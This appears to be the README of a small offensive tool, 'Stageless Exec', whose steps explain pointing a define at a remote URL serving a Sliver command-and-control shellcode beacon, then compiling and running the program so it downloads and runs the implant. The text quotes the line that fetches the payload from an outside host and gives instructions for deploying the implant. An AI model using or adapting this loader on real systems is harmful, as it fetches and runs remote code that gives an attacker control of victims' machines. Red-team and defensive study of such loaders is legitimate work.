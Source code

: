 # Stageless Exec

### Usage

- Change the URL of the payload endpoint on line 7 `#define PAYLOAD	L"http://10.4.10.20:8080/dev_sliver_beacon.bin"`
- Make sure you have a sliver shellcode named correctly being served from that endpoint.
- Compile a Release build and run. The program will freeze as it waits on the thread running the sliver implant infinitely.

